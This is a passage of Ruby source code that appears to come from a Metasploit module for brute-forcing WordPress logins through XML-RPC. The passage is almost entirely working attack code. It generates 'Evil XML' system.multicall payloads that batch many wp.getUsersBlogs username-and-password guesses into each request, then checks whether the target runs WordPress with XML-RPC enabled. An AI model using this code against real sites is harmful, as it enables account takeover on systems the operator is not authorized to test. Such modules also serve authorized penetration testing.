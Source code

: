 ```ruby
    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {

        pass_group.each  do |pass|
          xml.value {
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end

  #
  # Check target status
  #
  def check_wpstatus
    print_status("Checking #{peer} status!")

    if !wordpress_and_online?
      print_error("#{peer}:#{rport}#{target_uri} does not appear to be running WordPress or you got blocked! (Do Manual Check)")
      nil
    elsif !wordpress_xmlrpc_enabled?
      print_error("#{peer}:#{rport}#{wordpress_url_xmlrpc} does not enable XML-RPC")
      nil
    else
      print_status("Target #{peer} is running WordPress")
      true
    end

```